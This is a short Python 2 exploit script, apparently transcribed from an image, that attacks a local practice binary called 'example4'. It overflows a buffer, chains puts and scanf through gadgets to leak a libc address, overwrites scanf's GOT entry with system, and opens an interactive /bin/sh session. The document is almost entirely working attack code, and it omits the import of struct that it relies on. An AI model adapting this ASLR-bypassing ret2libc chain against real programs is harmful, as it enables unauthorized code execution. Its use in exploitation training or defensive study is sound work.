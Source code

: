  ```
import subprocess
import os
import pty
import time
def readline(fd):
  res = ''
  try:
    while True:
      ch = os.read(fd, 1)
      res += ch
      if ch == '\n':
        return res
  except:
    raise
def read(fd, n):
  return os.read(fd, n)
def writeline(proc, data):
  try:
    proc.stdin.write(data + '\n')
  except:
    raise
def p32(val):
  return struct.pack("<I", val)
def u32(data):
  return struct.unpack("<I", data)[0]
out_r, out_w = pty.openpty()    # to ignore buffer
s = subprocess.Popen("./example4", stdin=subprocess.PIPE, stdout=out_w)
'''
0x804851a <__libc_csu_init+90>:  pop    %edi
0x804851b <__libc_csu_init+91>:  pop    %ebp
0x804851c <__libc_csu_init+92>:  ret    
'''
pop_pop_ret = 0x804851a
pop_ret = pop_pop_ret + 1
scanf_plt = 0x8048340
puts_plt = 0x8048320
puts_got = 0x804a00c
string_fmt = 0x8048559      # "%s"
scanf_got = 0x804a014
print `readline(out_r)`     # Hello World!\n
print `readline(out_r)`     # Hello ASLR!\n
payload  = "A"*36           # buf padding
payload += p32(puts_plt + 6)   # ret addr (puts@plt + 6)
payload += p32(pop_ret)  # ret after puts
payload += p32(scanf_got)   # scanf@got
payload += p32(scanf_plt)
payload += p32(pop_pop_ret)
payload += p32(string_fmt)
payload += p32(scanf_got)
payload += p32(scanf_plt)
payload += p32(0xdeadbeef)
payload += p32(scanf_got+4)
print `payload`
writeline(s, payload)
libc = u32(readline(out_r)[:4]) - 0x5c0c0
system = libc + 0x3ada0
print "libc @ " + hex(libc)
print "system @ " + hex(system)
writeline(s, p32(system)+"/bin/sh\x00")
print "[+] get shell"
while True:
  cmd = raw_input("$ ")
  writeline(s, cmd)
 ```